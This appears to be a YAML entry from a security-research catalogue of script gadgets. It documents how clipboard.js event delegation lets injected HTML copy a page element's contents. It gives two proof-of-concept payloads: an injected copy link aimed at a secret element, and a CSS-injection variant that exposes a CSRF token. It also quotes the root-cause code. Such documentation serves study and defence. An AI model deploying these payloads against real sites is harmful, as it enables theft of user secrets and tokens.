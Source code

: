 ```yaml
---
description: Modern copy to clipboard. No Flash. Just 3kb gzipped.
github: zenorocha/clipboard.js
gadgets:
  Latest:
    authors:
      - twitter:kevin_mizu
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - any-tag
      - class-attr
      - data-attr
      - href-attr
      - any-timing
    pocs:
      - description: This gadget is special, it allows copying the content (text) of any element specified by a selector in the `data-clipboard-target` attribute. When combined with an `<a>` tag with an additional click on the attacker's website, it can be used to steal the contents of the clipboard.<br><br>*The [clipboard.js](https://github.com/zenorocha/clipboard.js) library uses "[good-listener](https://www.npmjs.com/package/good-listener)" to [listen to events](https://github.com/zenorocha/clipboard.js/blob/899378dee9681dcf4cb3d702c23a3f3cd9f473d8/src/clipboard.js#L63). This library delegates event listeners to the document, allowing them to be triggered at any time.*
        code: |
          <div id="to_copy">Secret</div>

          <!-- user input -->
          <a href="https://[current-location]/" class="copy-link" data-clipboard-action="copy" data-clipboard-target="#to_copy">Copy Text</a>

          <script src="https://cdnjs.cloudflare.com/ajax/libs/clipboard.js/2.0.11/clipboard.min.js"></script>
          <script>
            new ClipboardJS(".copy-link");
          </script>
      - description: When chained with a CSS injection, it is possible to `display block` script content to steal sensitive values such as CSRF tokens.
        code: |
          <script id="to_copy">CSRF_TOKEN=1234567890</script>

          <!-- user input -->
          <a href="https://[current-location]/" class="copy-link" data-clipboard-action="copy" data-clipboard-target="#to_copy">Copy Text</a>
          <style> * { display: block } </style>

          <script src="https://cdnjs.cloudflare.com/ajax/libs/clipboard.js/2.0.11/clipboard.min.js"></script>
          <script>
            new ClipboardJS(".copy-link");
          </script>
    more-info: |
      **Root Cause**

      Source: <a target="_blank" href="https://github.com/zenorocha/clipboard.js/blob/899378dee9681dcf4cb3d702c23a3f3cd9f473d8/src/clipboard.js#L62">https://github.com/zenorocha/clipboard.js/blob/899378dee9681dcf4cb3d702c23a3f3cd9f473d8/src/clipboard.js#L62</a>

      ```javascript
      listenClick(trigger) {
        this.listener = listen(trigger, 'click', (e) => this.onClick(e));
      }
      ```
---
```

